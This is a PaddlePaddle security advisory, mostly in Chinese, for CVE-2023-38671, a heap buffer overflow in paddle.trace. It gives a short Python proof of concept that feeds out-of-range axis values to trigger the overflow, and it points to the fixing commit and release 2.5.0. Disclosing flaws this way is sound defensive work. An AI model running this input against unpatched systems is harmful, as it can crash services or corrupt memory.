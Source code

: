 ## PDSA-2023-003: Heap buffer overflow in paddle.trace

### CVE编号

CVE-2023-38671

### 影响

`paddle.trace`中存在堆溢出漏洞，PoC代码如下：

```python
import paddle
import numpy as np
from paddle import trace

x = paddle.to_tensor(np.random.uniform(-10, 10, [2, 2, 2]).astype(np.float64))
offset = paddle.to_tensor(np.random.uniform(-10, 10, []).astype(np.int32))
axis1 = paddle.to_tensor(np.random.uniform(-6666666, -2, []).astype(np.int32))
axis2 = paddle.to_tensor(np.random.uniform(-6666666, -2, []).astype(np.int32))

trace(x, offset, axis1, axis2)
```

### 补丁

我们在commit [12549dfe3e87a4c30f852d2eca81d7f67c8daa87](https://github.com/PaddlePaddle/Paddle/commit/12549dfe3e87a4c30f852d2eca81d7f67c8daa87)中对此问题进行了补丁。
修复将包含在飞桨2.5.0版本当中。

### 更多信息

请参考我们的[安全指南](../../SECURITY_cn.md)以获得更多关于安全的信息，以及如何与我们联系问题。

### 贡献者

此漏洞由 Tong Liu of ShanghaiTech University 提交。
